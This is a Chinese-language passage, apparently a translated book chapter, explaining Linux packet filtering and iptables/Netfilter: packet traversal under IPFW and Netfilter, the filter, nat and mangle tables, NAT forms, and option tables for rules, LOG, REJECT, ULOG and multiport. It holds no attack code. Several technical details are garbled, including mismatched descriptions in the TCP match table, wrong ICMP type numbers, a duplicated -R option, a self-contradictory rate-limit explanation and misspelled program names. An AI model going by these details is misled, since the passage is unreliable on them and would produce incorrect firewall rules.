数据包过滤防火墙不提供完整的安全性。一些程序需要数据包过滤层面无法提供的高级安全措施。一些程序存在太多问题，以至于不建议在防火墙上运行，即使是在安全性较低的家用主机上也是如此。

像家庭这样的小型站点通常没有足够的计算机资源来通过在其他机器上运行私有服务以强制执行安全策略。因此必须做出妥协，特别是对于那些仅由 Linux 提供且必须运行的服务。然而，拥有局域网（`LAN`）的小型站点不应在防火墙上运行文件共享或其他私有局域网服务，例如 `Samba`。该机器不应存在不必要的用户账户。应从系统中移除不需要的系统软件。除了充当安全网关外，该机器不应承担任何其他功能。

### 5.6.2 选择要运行的服务

在所有讨论结束后，你可以决定需要或想要哪些服务。保护系统的第一步是确定你打算在防火墙上以及在防火后方的私有局域网中运行哪些服务和守护进程。每项服务都有其自身的安全考虑。一般原则是只运行你所需且理解的网络服务。在运行网络服务之前，尤其是当该机器直接连接到互联网时，理解该网络服务、它的功能及其目标用户至关重要。

## 5.7 总结

结合本章和前一章，已经阐述了网络和防火墙的基础知识。下一章将深入探讨 `iptables` 本身，随后在第 7 章中构建一个基于 `iptables` 的防火墙。

# IPTABLES：Linux 防火墙管理程序

第 5 章“分组过滤概念”涵盖了分组过滤防火墙背后的基本想法和概念。每个内置链都有自己的默认策略。每条规则不仅应用于单个链，还可以应用于特定的网络接口、消息协议类型（如 `TCP`、`UDP` 或 `ICMP`）以及服务端口或 ICMP 消息类型。针对 `INPUT` 链和 `OUTPUT` 链，以及 `FORWARD` 链，都定义了具体的接受和拒绝规则。下一章将这些想法整合起来，展示如何为你的站点构建一个简单的、单系统的、自定义设计的防火墙。

本章介绍了用于构建 `Netfilter` 防火墙的 `iptables` 管理程序。对于熟悉或习惯于使用旧版 `IPFW` 技术配套的 `ipfwad` 和 `iptchains` 程序的读者来说，`iptables` 看起来与这些程序非常相似。然而，它功能更加丰富，灵活性更强，并在细微层面上截然不同。


iptables 和 Netfilter 之间确实存在差异，尽管你经常听到这两个术语互换使用。Netfilter 是 Linux 内核空间程序代码，用于在 Linux 内核中实现防火墙，它是直接编译进内核的，或者是作为一组模块包含在内核中的。另一方面，`iptables` 是用于管理 Netfilter 和 `iptables` 的用户程序。除非另有说明，本书中将 `iptables` 视为同时包含 Netfilter 和 `iptables`。

由于 `iptables` 与之前的 `ipchains` 差异很大，本书不会尝试涵盖旧的实现方式。

下一节是为熟悉或正在使用 `ipchains` 的读者编写的。如果 `iptables` 是你首次接触 Linux 防火墙，你可以跳至“Netfilter 分组遍历”部分。

如果你正在从 `ipchains` 迁移到 `iptables`，你会注意到 `iptables` 语法中存在一些细微差异，最显著的是输入和输出网络接口是分开标识的。

`iptables` 高度模块化，有时需要显式加载单独的模块。日志记录是一个规则目标，而不是命令选项。可以维护连接状态跟踪。地址和端口转换现在成为与分组过滤在逻辑上分离的功能。完整源地址和目的地址转换已实现。Masquerading 现在是一个术语，用于指代源地址 NAT 的一种特殊形式。端口转发和目的地址转换直接得到支持，无需 `ipmasqadm` 等第三方软件支持。

## 早期版本 Linux 中的 Masquerading

对于 Linux 的新手来说，网络地址转换（NAT）在 `iptables` 中已完全实现。在此之前，NAT 在 Linux 中被称为 masquerading。一种简单且部分实现的源地址转换 masquerading 曾被拥有单一公共 IP 地址并希望其私有网络上的其他主机能够访问互联网的网站所有者使用。来自这些内部主机的出站分组其源地址会被伪装为可路由的公共 IP 地址。这可能令人困惑。

最重要的区别在于分组如何经过操作系统进行路由或转发，这使得防火墙规则集的构建方式存在细微差异。

对于 `ipchains` 用户来说，理解接下来两部分中讨论的分组遍历差异非常重要。`iptables` 和 `ipchains` 表面上看起来很相似，但实际上截然不同。很容易写出语法正确但效果与 `ipchains` 中类似规则不同的 `iptables` 规则。这可能令人困惑。如果你已经熟悉 `ipchains`，必须牢记这些差异。

### 6.1.1 IPFW 分组遍历

在 IPFW（`ipfw` 和 `ipchains`）下，使用三个内置过滤链。所有到达接口的分组都会与 `input` 链进行过滤。如果分组被接受，它会被传递给路由模块。路由功能确定该分组是应本地投递还是转发到另一个出站接口。图 6.1 展示了 IPFW 的分组流。

如果被转发，该分组会第二次与 `forward` 链进行过滤。如果分组被接受，它会被传递给 `output` 链。

本地生成的出站分组和转发分组都会传递给 `output` 链。如果分组被接受，它会被发送出接口。

### IPFW 与 Netfilter 防火墙机制之间的差异



**图 6.1** IPFW 分组遍历。（该图基于 Rusty Russel 的“Linux IPCHAINS-HOWTO”，版本 v1.0.8。）

接收和发送的本地（环回）分组经过两个过滤器。转发分组经过三个过滤器。

环回路径涉及两个链。如图 6.2 所示，每个环回分组在进入“出站”环回接口之前先经过 `output` 过滤器，在那里它被投递到环回接口的 `input` 接口。然后应用 `input` 过滤器。

请注意，环回路径说明了为什么当启动一个防火墙脚本时，如果该脚本不允许环回流量，或者在使用默认拒绝策略的情况下未能执行，人们的 X Window 会话会挂起。

对于在转发到局域网之前被解除伪装的响应分组，应用了 `input` 过滤器。分组没有通过路由功能，而是直接交给 `output` 过滤器链。因此，被解除伪装的入站分组被过滤了两次。出站伪装的分组被过滤了三次。



**图 6.2** IPFW 环回和伪装分组遍历。（该图基于 Rusty Russel 的“Linux IPCHAINS-HOWTO”，版本 v1.0.8。）

### 6.1.2 Netfilter 分组遍历

在 Netfilter（`iptables`）下，使用内置的 `INPUT`、`OUTPUT` 和 `FORWARD` 过滤链。入站分组经过路由功能，该功能确定是将分组投递到本地主机的 `input` 链还是转发到 `forward` 链。图 6.3 展示了 Netfilter 的分组流。



**图 6.3** Netfilter 分组遍历。（该图基于 Rusty Russell 的“Linux 2.4 Packet Filtering HOWTO”，版本 v1.0.1。）

如果本地目的地的分组被 `INPUT` 链的规则接受，该分组将本地投递。如果远程目的地的分组被 `FORWARD` 链的规则接受，该分组将被发送到相应的接口。

来自本地进程的出站分组会传递给 `OUTPUT` 链的规则。如果分组被接受，它将被发送到相应的接口。因此，每个分组只被过滤一次（环回分组除外，它们被过滤两次）。

## 6.2 基本的 iptables 语法

带有 Netfilter 的防火墙是通过 `iptables` 防火墙管理命令构建的。`iptables` 命令实现你创建的防火墙策略并管理防火墙的行为。Netfilter 防火墙有三个独立的表：`filter`、`NAT` 和 `mangle`。在这些表内，防火墙通过链来构建，链中的每个独立链接都是一条独立的 `iptables` 命令。

在默认的 `iptables` 表中，有一个用于输入或进入防火墙数据的链，一个用于转发或穿过防火墙发送数据的链，以及其他由用户命名和配置的链，通常（也恰当地）被称为用户定义的链。之后会讨论 `NAT` 和 `mangle` 链。目前，了解 `fil`

### 基本 iptables 语法

过滤表（`filter table`）是实现基本防火墙的默认表，`NAT` 表用于提供网络地址转换（NAT）及相关功能，而 `mangle` 表则用于数据包将被防火墙修改的情况。

`iptables` 命令具有非常特定的语法。很多时候，传递给 `iptables` 的选项顺序决定了命令是成功执行还是出现语法错误。由于 `iptables` 命令是按顺序执行的，因此如果允许某些数据包的命令位于拒绝相同数据包的命令之后，防火墙将会丢弃这些数据。

`iptables` 命令的基本语法以 `iptables` 命令本身开始，后接一个或多个选项、一条链、一组匹配条件以及一个目标或处理方式。命令的布局主要取决于要执行的操作。考虑以下语法：

```
iptables <option> <chain> <matching criteria> <target>
```

在构建防火墙时，选项通常使用 `-A`，用于在规则集末尾追加规则。当然，根据目标和正在执行的操作不同，还有其他几种选项。本章涵盖了其中大多数选项。

如前所述，链可以是输入链、输出链、转发链或用户自定义链。此外，链也可能是 `NAT` 或 `mangle` 表中包含的专用链。

`iptables` 命令中的匹配条件用于设置应用规则的标准。例如，匹配条件可用于告知 `iptables` 允许所有端口 80 的 TCP 流量进入防火墙。

最后，目标（`target`）旨在对匹配的数据包执行操作。目标可以像 `DROP` 那样简单，即静默丢弃数据包；也可以将匹配的数据包发送到用户自定义链；或者执行 `iptables` 中配置的其他任何操作。

本章后续部分展示了使用 `iptables` 为各种任务实现实际世界规则的一些常见示例。部分示例包含尚未介绍的语法和选项。如果您感到困惑，请查阅本节或 `iptables` 手册页以获取更多关于所用语法的信息。

## 6.3 iptables 特性

`iptables` 使用独立规则表的概念来处理不同类型的数据包处理功能。这些规则作为功能独立的表模块实现。三个主要模块是过滤表（`filter table`）、`NAT` 表和专门用于数据包处理的 `mangle` 表。每个表模块都有各自关联的模块扩展，这些扩展在首次被引用时动态加载，除非您已直接将其编入内核。

过滤表是默认表。其他表通过命令选项指定。基本的过滤表功能包括：

- 对三个内置链（`INPUT`、`OUTPUT`、`FORWARD`）及用户自定义链的链相关操作
- 目标处理方式（`ACCEPT` 或 `DROP`）
- IP 报头字段匹配操作，包括协议、源地址和目标地址、输入和输出接口以及分片处理
- 对 TCP、UDP 和 ICMP 报头字段的匹配操作

过滤表有两种类型的功能扩展：目标扩展和匹配扩展。目标扩展包括 `REJECT` 数据包处理方式、`BALANCE` 和 `CLUSTERIP` 目标、`CLASSIFY` 目标、`CONNMARK`、`TRACE` 以及 `LOG` 和 `ULOG` 功能。匹配扩展支持基于以下内容的匹配：

- 当前连接状态
- 端口列表（由 `multiport` 模块支持）


- 硬件以太网 MAC 源地址或物理设备
- 地址类型、链路层数据包类型或 IP 地址范围
- IPSec 数据包的各种部分或 IPSec 策略
- ICMP 类型
- 数据包长度
- 数据包到达时间
- 每第 n 个数据包或随机数据包
- 数据包发送者的用户、组、进程或进程组 ID
- IP 报头的类型服务（TOS）字段（可能由 `mangle` 表设置）
- IP 报头的 TTL 部分
- `iptables` 标记字段（由 `mangle` 表设置）
- 受限速率数据包匹配

`mangle` 表有两个目标扩展。`MARK` 模块支持为 `iptables` 维护的数据包标记字段分配值。`TOS` 模块支持设置 IP 报头中 TOS 字段的值。

### IPTABLES 中的即将推出特性

`iptables` 正在积极开发和增强。根据源代码和构建环境，显然在本书出版时将有更多模块可用。其他模块并不打算在公共发行版中发布。

例如，有一个实验性的 `MIRROR` 目标。该目标在反转 IP 报头中的源和目标部分后重传数据包。

NAT 表具有用于源地址转换和目标地址转换以及端口转换的目标扩展模块。这些模块支持以下形式的 NAT：

- `SNAT`——源网络地址转换。
- `DNAT`——目标网络地址转换。
- `MASQUERADE`——针对被分配临时、可动态分配 IP 地址（如电话拨号连接）的连接的特殊形式的源 NAT。
- `REDIRECT`——一种特殊形式的目标 NAT，它将数据包重定向到本地主机，而不管 IP 报头字段中的地址如何。

可以检查所有 TCP 状态标志，并基于结果做出过滤决策。例如，`iptables` 可以检查隐蔽扫描（stealth scans）。

TCP 可以选择性地指定发送方愿意接受的最大段大小。针对此单一 TCP 选项的过滤是非常专门化的情况。IP 报头的 TTL 部分也可以匹配，这也是一个专门化的情况。

可以维护 TCP 连接和持续的 UDP 交换，从而允许基于持续状态而非无状态、逐包方式识别数据包。接受作为已建立连接一部分的数据包允许绕过为每个数据包检查规则列表的开销。当初始连接被接受时，后续的数据包可以被识别并允许通过。

通常，TOS 字段仅具有历史意义。中间路由器要么忽略 TOS 字段，要么将其与较新的差异化服务（Differentiated Services）定义一起使用。IP TOS 过滤用于本地数据包优先级排序——在本地主机和本地路由器之间进行路由和转发。

传入的数据包可以根据 MAC 源地址进行过滤。由于 MAC 地址仅在相邻主机和路由器之间传递，这对于本地身份验证有有限的、专门化的用途。

单独的过滤日志消息可以添加用户定义的字符串前缀。消息被分配内核日志级别，如 `/etc/syslog.conf` 中定义的那样。这使得可以在 `/etc/syslog.conf` 中开启和关闭日志记录，并定义日志输出。此外，还有一个 `ULOG` 选项，它将日志记录发送到用户空间守护进程 `ulogd`，以便记录关于数据包的更多详细信息。

数据包匹配可以限制为初始突发速率，该限制由每秒匹配次数施加。如果启用匹配限制，默认行为是，在初始突发五个匹配的数据包之后，将施加每小时三次匹配的速率。换句话说，如果系统被 ping 数据包淹没，例如，前五个数据包会被匹配。在此之后，每分钟（原文为 20 minutes later，即 20 分钟后）可以匹配一个 ping 数据包，然后再匹配下一个，无论接收到多少 echo-request。数据包的处理方式（是否记录日志）将取决于关于这些数据包的任何后续规则。

`REJECT` 目标可以选择性地指定要返回哪个 ICMP（或 TCP 的 RST）错误消息。IPv4 标准要求 TCP 接受 RST 或 ICMP 作为错误指示，尽管 RST 是默认的 TCP 行为。`iptables` 的默认行为是返回无（DROP）或者返回一个 ICMP 错误（REJECT）。

除了 `REJECT`，另一个专用目标是 `QUEUE`。其目的是通过 netlink 设备将数据包交给用户空间程序处理。如果没有等待的程序，数据包将被丢弃。

`RETURN` 是另一个专用目标。其目的是在规则匹配完成之前从用户自定义链返回。

本地生成的出站数据包可以基于生成该数据包的程序的用户、组、进程或组 ID 进行过滤。对远程服务的访问可以通过基于每个用户的包过滤级别进行授权。这是多用户、多用途主机的一个专门化选项，因为防火墙路由器不应该有普通用户账户。

可以对 IPSec 报头的各个部分进行匹配，包括 SPI（安全头）和 ESP（封装安全负载）。

数据包类型，无论是广播、单播还是组播，是另一种匹配形式。

端口范围以及地址范围也是 `iptables` 的有效匹配。地址类型是另一种有效匹配。与类型匹配相关的是 ICMP 数据包类型。请回想一下，有几种有效的 ICMP 数据包类型。`iptables` 可以针对这些类型进行匹配。

数据包长度是有效匹配，数据包到达时间也是如此。这种时间匹配很有趣。使用时间匹配，您可以配置防火墙在下班时间后拒绝某些流量，或仅允许在一天中的特定时间通过。

用于审计的一个良好匹配项，`iptables` 还可用随机数据包匹配。在此匹配中，您可以捕获每第 n 个数据包并记录日志。这是一种在不记录过多信息的情况下审计防火墙规则的方法。

## 6.3.1 NAT 表特性

NAT 有三种一般形式：

- 传统的单向出站 NAT——用于使用私有地址的网络。
- NAT——仅地址转换。通常用于将本地私有地址映射到公共地址块中的一个。
- NAPT（网络地址端口转换）——通常用于将本地私有地址映射到单个公共地址（例如，Linux 伪装 masquerading）。
- 双向 NAT——双向地址转换允许出站和入站连接。其中一个用途是在 IPv4 和 IPv6 地址空间之间进行双向地址映射。

## iptables 特性

- **双向 NAT**——双向源地址和目的地址转换允许出站和入站连接。当源网络和目的网络的地址空间发生冲突时，可以使用双向 NAT。这可能是由于错误地使用了分配给某人的公共地址所致。当一个站点被重新编号或分配到一个新的公共地址块，且站点管理员当时不希望在该站点本地实施新的地址分配时，也可以使用双向 NAT 作为一种便利措施。

`iptables` NAT 支持源地址转换（`SNAT`）和目的地址转换（`DNAT`）。NAT 表允许修改数据包的源地址或目的地址及端口。它有三个内置链：

- **`PREROUTING`** 链在将数据包传递给路由功能之前，指定对入站数据包的目的地址进行更改（`DNAT`）。目的地址的更改可以针对本地主机（透明代理、端口重定向），也可以针对其他主机用于主机转发（伪装功能，即 Linux 术语中的端口转发）或负载分担。
- **`OUTPUT`** 链在做出路由决定之前，指定对本地生成的出站数据包的目的地址进行更改（`DNAT`、`REDIRECT`）。这通常用于将出站数据包透明地重定向到本地代理，但也可用于端口转发到其他主机。
- **`POSTROUTING`** 链指定对通过该机器路由的出站数据包的源地址进行更改（`SNAT`、`MASQUERADE`）。这些更改在做出路由决定之后应用。

### iptables 中的伪装

使用常规 `SNAT` 时，连接状态会在超时期间内保持。如果连接足够快地重新建立，由于 IP 地址未变，任何当前的网络相关程序都可以继续不受干扰，中断的 TCP 流量将重新传输。

`MASQUERADE` 与 `SNAT` 的区别在于试图避免在早期 NAT/MASQUERADE 实现中出现的情况。当拨号连接丢失且用户立即重新连接时，会被分配一个新的 IP 地址。由于旧的 IP 地址和 NAT 信息在超时期间过期前仍保留在内存中，新地址无法立即使用。

图 6.4 显示了 NAT 链与路由功能以及 `INPUT`、`OUTPUT` 和 `FORWARD` 链之间的关系。



**图 6.4** NAT 数据包遍历。（图基于“Linux 2.4 数据包过滤 HOWTO”，v1.0.1 和“Linux 2.4 NAT HOWTO”，v1.0.1。）

请注意，对于出站数据包，本地进程和 `OUTPUT` 链之间隐含了路由功能。在应用 `OUTPUT` 链的过滤规则之前，使用静态路由来确定数据包将从哪个接口发出。

`mangle` 表允许将 Netfilter 维护的值标记或关联到数据包，并在发送数据包到其目的地之前对数据包进行修改。`mangle` 表有五个内置链：

- **`PREROUTING`** 链指定数据包到达接口时、在进行任何路由或本地投递决定之前，对入站数据包进行的更改。
- **`INPUT`** 链指定在数据包处理时、但在遍历 `PREROUTING` 链之后进行的更改。
- **`POSTROUTING`** 链指定数据包退出防火墙时、在遍历 `OUTPUT` 链之后进行的更改。
- **`FORWARD`** 链指定对通过防火墙转发的数据包进行的更改。
- **`OUTPUT`** 链指定对本地生成的出站数据包进行的更改。

对于 TOS 字段，本地 Linux 路由器可以通过 `mangle` 表或根据本地主机设置的 TOS 标志来配置为遵守 TOS 标志。


关于 iptables 文档中数据包标记的信息非常有限，除了它被 Linux 服务质量实现使用，以及它旨在作为 iptables 模块之间的通信标志外，没有其他更多信息。

前面的章节概述了 iptables 中可用的功能以及各个表模块的总体结构和功能。接下来的章节将介绍调用这些功能所使用的语法。

## iptables 语法

如前所述，`iptables` 使用针对不同数据包处理功能的独立规则表的概念。非默认表通过命令行选项指定。有三个可用的表：

- **`filter`**——`filter` 表是默认表。它包含实际的防火墙过滤规则。内置链包括：

  - `INPUT`
  - `OUTPUT`
  - `FORWARD`

- **`nat`**——`nat` 表包含源地址和目的地址及端口转换的规则。这些规则在功能上不同于防火墙过滤规则。内置链包括：

  - `PREROUTING` (`DNAT`/`REDIRECT`)
  - `OUTPUT` (`DNAT`/`REDIRECT`)
  - `POSTROUTING` (`SNAT`/`MASQUERADE`)

- **`mangle`**——`mangle` 表包含设置专用数据包路由标志的规则。这些标志随后由 `filter` 表中的规则检查。内置链包括：

  - `PREROUTING` (被路由的数据包)
  - `INPUT` (到达防火墙但处于 `PREROUTING` 链之后的数据包)
  - `FORWARD` (更改通过防火墙路由的数据包)
  - `POSTROUTING` (更改数据包在离开防火墙之前、在 `OUTPUT` 链之后的数据包)
  - `OUTPUT` (本地生成的数据包)

### 语法格式约定

用于展示命令行语法选项的约定在计算机界相当标准。对于 Linux 或计算机文档的新手，表 6.1 显示了即将在语法描述中使用的约定。

**表 6.1 表示命令行语法选项的约定**

| 元素 | 描述 |
| :--- | :--- |
| `-` | 竖线或管道符号分隔交替的语法选项。例如，大多数 `iptables` 命令都有短格式和长格式，如 `-L` 和 `list`，因此它们被列为交替选项，因为你会使用 `-L` 或 `--list` 中的一个。 |
| `<value>`, `[]` | 尖括号表示用户提供的值，如字符串或数值。方括号表示括号内的命令或值是可选的。例如，大多数匹配操作符可以接受一个否定操作符 `!`，它匹配匹配项中指定的值以外的任何值。否定操作符通常放置在匹配操作符和要匹配的值之间。 |
| `<value>:<value>` | 冒号表示值的范围。这两个值定义了范围内的最小值和最大值。由于范围本身是可选的，约定通常表示为 `<value>[:<value>]`。 |

`filter` 表命令由 `ip_tables` 模块提供。通过加载模块来启用该功能，这在首次调用 `iptables` 命令时会自动完成，或者它可以直接编译到内核本身中，这意味着你完全不需要担心模块的加载问题。

### filter 表对整条链的操作

表 6.2 显示了对整条链的 `iptables` 操作。

**表 6.2 iptables 对整条链的操作**

| 选项 | 描述 |
| :--- | :--- |
| `-N`, `--new-chain <chain>` | 创建用户定义的链。 |
| `-F`, `--flush <chain>` | 清空链，如果未指定则清空所有链。 |
| `-X`, `--delete-chain <chain>` | 删除用户定义的链，如果未指定则删除所有链。 |
| `-P`, `--policy <chain> <policy>` | 为内置链 `INPUT`、`OUTPUT` 或 `FORWARD` 之一定义默认策略。策略为 `ACCEPT` 或 `DROP`。 |
| `-L`, `--list <chain>` | 列出链中的规则，如果未指定则列出所有链。 |
| `-Z`, `--zero` | 重置与每条链关联的数据包字节计数器。 |
| `-h`, `<some command> -h` | 列出 `iptables` 命令和选项，或者如果在 `iptables` 命令之前，则列出该命令的语法和选项。 |
| `--modprobe=<command>` | 在将规则添加或插入到链中时，添加命令以加载必要的模块。 |
| `-R`, `--rename-chain <old chain> <new chain>` | 将用户定义的链 `<old chain>` 重命名为用户定义的链 `<new chain>`。 |

`-h` 命令显然不是对链的操作，`--modprobe=<command>` 也不是，但我知道该在哪里列出这些命令。`list` 命令接受额外选项，如表 6.3 所示。

**表 6.3 list 命令的选项**

| 选项 | 描述 |
| :--- | :--- |
| `-n`, `--numeric` | 以数字形式列出 IP 地址和端口号，而不是按名称列出 |
| `-v`, `--verbose` | 列出每条规则的额外信息，如字节和数据包计数器、规则选项和相关接口 |
| `-x`, `--exact` | 列出计数器的精确值，而不是取整后的值 |
| `-l`, `--line-numbers` | 列出规则在其链中的位置 |

### filter 表对规则的操作

表 6.4 显示了在链中创建或删除规则时最常用的命令。

## 表 6.4 单条规则的链命令

| 命令 | 描述 |
| :--- | :--- |
| `-A <chain>` | `--append <chain>` | 将规则添加到链的末尾 |
| `-I <chain>` | `--insert <chain>` | 在链的开头插入规则 |
| `-R <chain> <rule number>` | `--replace <chain> <rule number> <rule specification>` | 替换链中的规则 |
| `-D <chain> <rule number>` | `--delete <chain> <rule number>` | 删除链中位于指定位置的规则 |

## 基础过滤器表匹配操作

默认 `iptables` 过滤表中支持的基础过滤器匹配操作列于表 6.5 中。

### 表 6.5 过滤器表规则操作

| 选项 | 描述 |
| :--- | :--- |
| `-i` | `--in-interface [!] [<interface>]` | 对于 `INPUT` 或 `FORWARD` 链或其用户定义子链上的传入数据包，指定规则适用的接口名称。如果不指定接口，则默认为所有接口。 |
| `-o` | `--out-interface [!] [<interface>]` | 对于 `OUTPUT` 或 `FORWARD` 链或其用户定义子链上的传出数据包，指定规则适用的接口名称。如果不指定接口，则默认为所有接口。 |
| `-p` | `--protocol [!] [<protocol>]` | 指定规则适用的 IP 协议。内置协议包括 `tcp`、`udp`、`icmp` 和 `all`。协议值可以是名称或数值，具体列表见 `/etc/protocols`。 |
| `-s` | `--source \| --src [!] <address>[/<mask>]` | 指定 IP 报头中的源主机或网络地址。 |
| `-d` | `--destination \| --dst [!] <address>[/<mask>]` | 指定 IP 报头中的目标主机或网络地址。 |
| `-j` | `--jump <target>` | 如果数据包匹配该规则，指定数据包的后续处理目标。默认目标包括内置目标、扩展或用户定义的链。 |
| `[-!] -f` | `--fragment` | 指定第二个及后续的碎片数据包。该选项的否定形式指定非碎片数据包。 |
| `-c` | `--set-counters <packets> <bytes>` | 初始化数据包和字节计数器。 |

### 规则目标为可选项

如果数据包匹配一条没有指定目标处置的规则，则数据包计数器会被更新，但列表遍历将继续进行。

## TCP 过滤器表匹配操作

TCP 报头匹配选项列于表 6.6 中。

### 表 6.6 TCP 过滤器表匹配操作

| 选项 | 描述 |
| :--- | :--- |
| `-p tcp` 选项 | 此命令指定源端口 |
| `--source-port \| --sport [!] <port>[:<port>]` | 此命令指定目标端口 |
| `--destination-port \| --dport [!] <port>[:<port>]` | 此命令测试掩码列表中的位，为了匹配，这些位必须被置位 |
| `--tcp-flags [!] <mask>,<mask> <set>,<set>` | `SYN` 标志必须被置位作为初始连接请求 |
| `[-!] -syn` |  |
| `--tcp-option [!] <number>` | 唯一合法的 TCP 选项是发送主机愿意接受的最大数据包大小。 |

## UDP 过滤器表匹配操作

UDP 报头匹配选项列于表 6.7 中。

### 表 6.7 UDP 过滤器表匹配操作


| 选项 | 描述 |
| :--- | :--- |
| `-p udp` 选项 | 指定源端口 |
| `--source-port` \| `--sport` [!] `<port>[:<port>]` | 指定源端口 |
| `--destination-port` \| `--dport` [!] `<port>[:<port>]` | 指定目标端口 |

## ICMP 过滤器表匹配操作

ICMP 报头匹配选项列于表 6.8 中。

### 表 6.8 ICMP 过滤器表匹配操作

| 匹配 | 描述 |
| :--- | :--- |
| `--icmp-type` [!] `<type>` | 指定 ICMP 类型名称或编号。ICMP 类型用于替代源端口。 |

主要支持的 ICMP 类型名称和数值如下：

- `echo-reply` (0)
- `destination-unreachable` (3)
    - `network-unreachable`
    - `host-unreachable`
    - `protocol-unreachable`
    - `port-unreachable`
    - `fragmentation-needed`
    - `network-unknown`
    - `host-unknown`
    - `network-prohibited`
    - `host-prohibited`
- `source-quench` (4)
- `redirect` (5)
- `echo-request` (8)
- `time-exceeded` (10)
- `parameter-problem` (11)

## 额外的 ICMP 支持

`iptables` 支持许多额外的、较少见或路由器特定的 ICMP 消息类型和子类型。要查看完整列表，请使用以下 `iptables` 帮助命令：

```bash
iptables -p icmp -h
```

## 6.4.2 过滤器表目标扩展

过滤器表的目标扩展包括日志记录功能，以及拒绝数据包而不是丢弃数据包的能力。

表 6.9 列出了 `LOG` 目标可用的选项。表 6.10 列出了 `REJECT` 目标可用的唯一选项。

### 表 6.9 LOG 目标扩展

| 选项 | 描述 |
| :--- | :--- |
| `-j LOG` 选项 |  |
| `--log-level` `<syslog level>` | 日志级别为数值或符号登录优先级，列表见 `/usr/include/sys/log.h`。这些级别与 `/etc/syslog.conf` 中使用的日志级别相同。级别包括 `emerg` (0)、`alert` (1)、`crit` (2)、`err` (3)、`warn` (4)、`notice` (5)、`info` (6) 和 `debug` (7)。 |
| `--log-prefix` `<descriptive string>` | 前缀是一个带引号的字符串，将在该规则的日志消息开始处打印。 |
| `--log-ip-options` | 此命令在日志输出中包含任何 IP 报头选项。 |
| `--log-tcp-sequence` | 此命令在日志输出中包含 TCP 数据包的序列号。 |
| `--log-tcp-option` | 此命令在日志输出中包含任何 TCP 报头选项。 |

### 表 6.10 REJECT 目标扩展

| 选项 | 描述 |
| :--- | :--- |
| `-j REJECT` 选项 |  |
| `--reject with` `<ICMP type 3>` | 默认情况下，被拒绝的数据包会导致向发送方返回 ICMP type 3 `icmp-port-unreachable` 消息。也可以返回其他 type 3 错误消息，包括 `icmp-net-unreachable`、`icmp-host-unreachable`、`icmp-proto-unreachable`、`icmp-net-prohibited` 和 `icmp-host-prohibited`。 |
| `--reject-with tcp-reset` | 传入的 TCP 数据包继续处理，但返回更标准的 TCP RST 消息，而不是 ICMP 错误消息。 |
| `--reject-with echo-reply` | `ping` `echo-request` 消息将被失败的 `echo-reply` 消息拒绝。也就是说，防火墙生成回复，但请求不会被转发到目标主机。 |

## ULOG 表目标扩展

与 `LOG` 目标相关的是 `ULOG` 目标，它将日志消息发送到用户空间程序进行记录。在 `ULOG` 的幕后，数据包由内核通过您选择的 netlink 套接字进行多播（默认为套接字 1）。用户空间守护进程随后从套接字读取消息，并自行处理。`ULOG` 目标通常用于提供比标准 `LOG` 目标更详尽的日志记录。

与 `LOG` 目标一样，在匹配 `ULOG` 目标规则后，处理将继续进行。`ULOG` 目标有四个配置选项，如表 6.11 所述。

### 表 6.11 ULOG 目标扩展

| 选项 | 描述 |
| :--- | :--- |
| `--ulog-ngroup` `<group>` | 定义接收数据包的 netlink 组。默认组为 1。 |
| `--ulog-prefix` `<prefix>` | 消息将以此值作为前缀，长度不超过 32 个字符。 |
| `--ulog-crange` `<size>` | 发送到 netlink 套接字的字节大小。默认为 0，发送整个数据包。 |
| `--ulog-qthreshold` `<size>` | 内核中队列的数据包大小。默认为 1，意味着每个消息向 netlink 套接字发送一个数据包。 |

## 6.4.3 过滤器表匹配扩展

过滤器表的匹配扩展提供了对 TCP、UDP 和 ICMP 报头字段的访问，以及 `iptables` 中可用的匹配功能，例如维护连接状态、端口列表、访问硬件 MAC 地址和访问 IP TOS 字段。

## 匹配语法

匹配示例需要 `-m` 或 `--match` 命令来加载模块，后跟相关的匹配选项。

## multiport 过滤器表匹配扩展

`multiport` 端口列表每个列表最多可包含 15 个端口。不允许空格。逗号和端口值之间不能有空白。端口范围不能交错在列表中。此外，`-m multiport` 命令必须紧跟在 `-p <protocol>` 指定符之后。

表 6.12 列出了 `multiport` 匹配扩展可用的选项。

### 表 6.12 multiport 匹配扩展

| 选项 | 描述 |
| :--- | :--- |
| `-m multiport` | `--match multiport` |
| `--source-port` `<port>` [`,``<port>`...] | 指定源端口。 |
| `--destination-port` `<port>` [`,``<port>`...] | 指定目标端口。 |
| `--ports` `<port>` [`,``<port>`...] | 源端口和目标端口相等，并且它们匹配列表中的一个端口。 |

`multiport` 语法可能有些棘手。这里包含了一些示例和注意事项。以下规则阻止到达 `eth0` 接口、发往与 NetBIOS 和 SMB 相关的 UDP 端口的传入数据包，这些是微软 Windows 计算机上常见的端口，也是攻击目标：

```bash
